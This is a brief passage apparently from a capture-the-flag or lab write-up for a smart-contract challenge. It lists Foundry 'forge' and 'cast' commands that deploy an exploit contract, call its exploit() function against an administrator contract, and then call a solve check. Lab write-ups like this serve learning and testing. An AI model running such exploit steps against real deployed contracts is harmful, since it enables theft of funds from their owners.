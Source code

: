 ```bash
forge create src/symbol-of-noble/$EXPLOIT_FILE:$EXPLOIT -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR --value 11ether

// Exploiting Administrator
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"

// Calling the isTrueNoble()
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "proofSolve()"
```
&nbsp;   
Running the command above should've solved the lab!
